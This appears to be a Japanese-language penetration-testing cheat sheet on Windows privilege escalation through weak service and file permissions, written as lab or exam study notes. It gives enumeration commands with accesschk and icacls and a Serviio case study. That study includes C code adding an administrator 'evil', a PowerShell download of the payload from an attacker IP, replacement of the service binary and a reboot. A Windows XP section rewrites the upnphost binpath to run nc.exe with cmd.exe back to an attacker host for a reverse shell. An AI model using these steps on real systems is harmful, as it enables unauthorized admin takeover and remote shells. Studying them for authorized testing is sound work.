

# Insecure Service & File Permissions

* [情報収集](#情報収集)
* [Serviioサービスでのケーススタディ](#Serviioサービスでのケーススタディ)
* [Vulunerable Microsoft Services(upnphost and SSDPSRV)](#Vulunerable Microsoft Services(upnphost and SSDPSRV))


### 情報収集

書き込み権限のあるファイル、ディレクトリの列挙

```cmd
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk64.exe -uws "Everyone" "C:\Program Files"
accesschk64.exe /accepteula -uws "Everyone" "C:\Program Files"
```

```cmd
accesschk64.exe /accepteula -uwcqv <ユーザ名> *
```

Accesschkが実行できない時用

```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

* Get-ChildItem: ディレクトリ配下のアイテムを再帰出力

* Get-ACL：権限取得用コマンドレット

* この場合"Everyone"グループのメンバーによって変更可能なオブジェクトを探索

iscalsでファイルのパーミッションを確認する

```
PS C:\> icacls "C:\Program Files\*" | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
PS C:\> icacls "C:\Program Files (x86)\*" | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
PS C:\Program Files\> icacls.exe * | findstr "(F)" # full access
PS C:\Program Files\> icacls.exe * | findstr "(M)" # modify acces
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

実行中のサービスの確認

```cmd
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```


### Serviioサービスでのケーススタディ

NT権限で実行されるサービスの安全でないファイルパーミッションを悪用する方法

1. 攻撃対象ホストのWin32サービスを列挙する

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

・・・
Serviio                      Running C:\Program Files\Serviio\bin\ServiioService.exe
```

※ユーザがダウンロードしたようなexeファイルがないかを確認する。特に`ProgramFIles`配下はユーザダウンロードしたアプリが入るので調査の価値あり

2. SYSTEM特権で実行されていることの確認

   ```cmd
   sc qc <Service Name>
   ```

3. icaclsを使って、対象サービスのパーミッションを列挙

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

権限の見方は以下

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| dM   | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

* 置き換え用のexeファイルを作成する

  ```c
  #include <stdlib.h>
  
  int main ()
  {
    int i;
    
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
    
    return 0;
  }
  ```

  * クロスコンパイル

    ```bash
    i686-w64-mingw32-gcc adduser.c -o adduser.exe
    ```

* 攻撃対象ホストに配送し、置き換えする

  ```
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.144:5555/adduser.exe', 'adduser.exe')
  ```

  ```cmd
  move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
  move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
  dir "C:\Program Files\Serviio\bin\"
  ```

* サービスの再起動を試みる

  ```
  net stop Serviio
  ```

  →権限なし

  ※サービス名は以下コマンドで確認できる

  ```cmd
  tasklist /SVC | findstr <検索文字>
  ```

  

  ※ 一番右がサービス名になる

* Serviioサービスの開始オプションを確認する

  ```cmd
  wmic service where caption="Serviio" get name, caption, state, startmode
  ---
  C:\Users\admin\Documents>wmic service where caption="Serviio" get name, caption, state, startmode
  Caption  Name     StartMode  State
  Serviio  Serviio  Auto       Running
  ```

  ※Autoに設定されており自動的に開始される

* システムの再起動の権限の確認

  ```
  whoami /priv
  
  ----
  PRIVILEGES INFORMATION
  ----------------------
  
  Privilege Name                Description                          State
  ============================= ==================================== ========
  SeShutdownPrivilege           Shut down the system                 Disabled
  SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
  SeUndockPrivilege             Remove computer from docking station Disabled
  SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
  SeTimeZonePrivilege           Change the time zone                 Disabled
  ```

  `SeShutDownPrivilege`の権利があり、再起動可能

* 再起動する

  ```
  shutdown /r /t 0
  ```

* 追加したユーザでログインしなおす

  ```
  rdesktop -g 95% -u evil -p 'Ev!lpass' 192.168.144.10
  ```

  ```
  net localgroup Administrators
  ```

  ```
  ┌──(kali㉿kali)-[~/Documents/OSCP/21.ActiveDirectoryAttacks]
  └─$ nc -lnvp 12345
  listening on [any] 12345 ...
  connect to [192.168.119.131] from (UNKNOWN) [192.168.131.171] 49732
  Microsoft Windows [Version 10.0.17763.1757]
  (c) 2018 Microsoft Corporation. All rights reserved.
  
  C:\Windows\system32>whoami
  whoami                                                                                                                      
  exam\zensvc                                                                                                                 
                                                                                                                              
  C:\Windows\system32>whoami groups                                                                                           
  whoami groups                                                                                                               
  ERROR: Invalid argument/option - 'groups'.                                                                                  
  Type "WHOAMI /?" for usage.                                                                                                 
                                                                                                                              
  C:\Windows\system32>whoami /groups                                                                                          
  whoami /groups
  
  GROUP INFORMATION
  -----------------
  
  Group Name                                  Type             SID                                         Attributes                                                     
  =========================================== ================ =========================================== ===============================================================
  Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group             
  BUILTIN\Administrators                      Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
  NT AUTHORITY\SERVICE                        Well-known group S-1-5-6                                     Mandatory group, Enabled by default, Enabled group             
  CONSOLE LOGON                               Well-known group S-1-2-1                                     Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group             
  NT AUTHORITY\This Organization              Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group             
  LOCAL                                       Well-known group S-1-2-0                                     Mandatory group, Enabled by default, Enabled group             
  EXAM\Domain Admins                          Group            S-1-5-21-88558181-3850747640-3669402957-512 Mandatory group, Enabled by default, Enabled group             
  Authentication authority asserted identity  Well-known group S-1-18-1                                    Mandatory group, Enabled by default, Enabled group             
  EXAM\Denied RODC Password Replication Group Alias            S-1-5-21-88558181-3850747640-3669402957-572 Mandatory group, Enabled by default, Enabled group, Local Group
  Mandatory Label\High Mandatory Level        Label            S-1-16-12288  
  ```

  

### Vulunerable Microsoft Services(upnphost and SSDPSRV)

対象: Windows XP

バージョン：SP0/SP1

※ Windows XP SP2以降のwindowsでは、windows serviceの脆弱性を利用することは、ほとんどできない。

https://xor.cat/assets/other/Accesschk.zip

* 脆弱性チェック

  ```cmd
  accesschk.exe /accepteula -uwcqv "Authenticated Users" *
  
  RW SSDPSRV
          SERVICE_ALL_ACCESS
  RW upnphost
          SERVICE_ALL_ACCESS
  ```

  * -u：エラーを抑制
  * -w：書き込みアクセス権を検索
  * -c：windowsサービス
  * -q：バナーの省略
  * -v：詳細

* サービスの詳細確認

  ```cmd
  accesschk.exe /accepteula -ucqv SSDPSRV
  accesschk.exe /accepteula -ucqv upnphost
  
  ----
  RW NT AUTHORITY\LOCAL SERVICE
          SERVICE_ALL_ACCESS
  ```

  RW権限あり

* サービスの設定を確認

  ```cmd
  sc qc upnphost
  [SC] GetServiceConfig SUCCESS
  
  SERVICE_NAME: upnphost
          TYPE               : 20  WIN32_SHARE_PROCESS 
          START_TYPE         : 3   DEMAND_START
          ERROR_CONTROL      : 1   NORMAL
          BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
          LOAD_ORDER_GROUP   :   
          TAG                : 0  
          DISPLAY_NAME       : Universal Plug and Play Device Host  
          DEPENDENCIES       : SSDPSRV  
          SERVICE_START_NAME : NT AUTHORITY\LocalService
  ```

  →SSDPSRVがスタートしていないと始めることができない

  ```cmd
  sc qc SSDPSRV
  sc qc SSDPSRV
  [SC] GetServiceConfig SUCCESS
  
  SERVICE_NAME: SSDPSRV
          TYPE               : 20  WIN32_SHARE_PROCESS 
          START_TYPE         : 4   DISABLED
          ERROR_CONTROL      : 1   NORMAL
          BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
          LOAD_ORDER_GROUP   :   
          TAG                : 0  
          DISPLAY_NAME       : SSDP Discovery Service  
          DEPENDENCIES       :   
          SERVICE_START_NAME : NT AUTHORITY\LocalService 
  ```

  →START_TYPEがDISABLEDとなっておりサービスを開始することができない

* SSDPSRVの状態を確認する

  ```cmd
  sc query SSDPSRV
  sc query SSDPSRV
  
  SERVICE_NAME: SSDPSRV
          TYPE               : 20  WIN32_SHARE_PROCESS 
          STATE              : 1  STOPPED 
                                  (NOT_STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)
          WIN32_EXIT_CODE    : 1077       (0x435)
          SERVICE_EXIT_CODE  : 0  (0x0)
          CHECKPOINT         : 0x0
          WAIT_HINT          : 0x0
  ```

  →サービスは停止状態

* SSDPSRVの開始設定をAUTOMATICに修正する

  ```
  sc config SSDPSRV start= auto
  ```

  ※=とautoの間には空白が必要（重要）

* SSDPSRVを開始する

  ```
  net start SSDPSRV
  ```

* upnphostの設定を変更する

  ```
  sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.124 443 -e C:\WINDOWS\System32\cmd.exe"
  ```

  ```
  sc config upnphost obj= ".\LocalSystem" password= ""
  ```

* upnphostを開始してリバースシェルを取得する

  ```
  nc -lvnp 443
  net start upnphost
  ```

  


